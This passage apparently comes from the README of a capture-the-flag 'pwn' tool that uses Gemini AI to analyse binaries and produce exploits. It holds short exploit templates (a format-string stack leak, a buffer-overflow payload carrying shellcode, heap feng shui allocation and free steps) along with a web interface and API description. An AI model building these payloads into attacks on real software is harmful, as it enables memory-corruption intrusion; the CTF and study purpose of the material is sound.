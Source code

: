 ```python
# Stage 1: Leak stack address
format_payload = f"%{1}$p".encode()
leaked_addr = extract_address(response)

# Stage 2: Calculate shellcode address  
shellcode_addr = leaked_addr + 0x52 + 8

# Stage 3: Buffer overflow with custom shellcode
payload = b'A' * 72 + p64(shellcode_addr) + shellcode
```

### Heap Feng Shui
Controlled heap layout manipulation for reliable exploitation.

```python
# Phase 1: Prepare heap layout
for size in [0x20, 0x30, 0x40, 0x50, 0x60]:
    alloc(size)

# Phase 2: Create controlled fragmentation
for i in [0, 2, 4]:
    free(i)

# Phase 3: Exploit layout
payload = b'A' * 0x18 + p64(0x41) + p64(target_addr)
```

---

## Web Interface

The system includes a modern web interface with:

- **File Upload** - Drag and drop challenge files
- **AI Chat** - Interactive analysis with Gemini AI
- **Real-time Results** - Live analysis progress
- **Exploit Download** - Generated exploits and reports

Access at `http://localhost:5000` after running `python web_pwn_analyzer.py`

---

## API Reference

### PWNAIAnalyzer Class
```python
analyzer = PWNAIAnalyzer(gemini_api_key="your_key")
analyzer.analyze_directory("./challenges/")
analyzer.generate_final_report()
```

### AdvancedPWNSolver Class  
```python
solver = AdvancedPWNSolver(gemini_api_key="your_key")
solver.analyze_binary_comprehensive("./binary")
challenge_type = solver.detect_challenge_type()
solver.apply_advanced_technique(challenge_type)
```

---